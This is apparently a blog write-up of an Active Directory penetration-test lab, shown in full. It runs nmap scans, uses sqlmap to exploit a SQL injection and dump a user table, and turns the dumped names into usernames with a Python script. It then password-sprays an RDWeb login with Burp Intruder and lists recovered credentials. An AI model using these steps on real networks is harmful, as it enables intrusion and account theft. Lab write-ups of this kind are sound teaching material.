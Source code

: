 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)

`
nmap -T4 -sV -Pn -p80,443 10.7.12.0/24
`

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

```
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: 10.7.12.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.7.12.12/mvc/
Cookie: __AntiXsrfToken=e1e188c81f744fad9a0d59ef8c17af71
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1  
```

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.

```
sqlmap -r product.req --level=5 --risk=3
```

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

```
Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+
```

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:

```
POST /RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx HTTP/1.1
Host: 10.7.12.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx
Cookie: TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=DOMAIN%5CUSERNAME&MachineType=private&WorkSpaceID=RDS02.lab.local
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 293

WorkSpaceID=RDS02.lab.local&RDPCertificates=&PublicModeTimeout=20&PrivateModeTimeout=240&WorkspaceFriendlyName=Work%2520Resources&EventLogUploadAddress=&RedirectorName=RDS02.lab.local&ClaimsHint=&ClaimsToken=&isUtf8=1&flags=4&DomainUserName=LAB%5Cavasquez&UserPass=PASSWORD&MachineType=private
```


```
import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))
```

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!

Intruder: 
-you can use the "cluster bomb" attack
-remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
-we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
-make sure to Always Follow Redirection in the options tab

User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!



[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
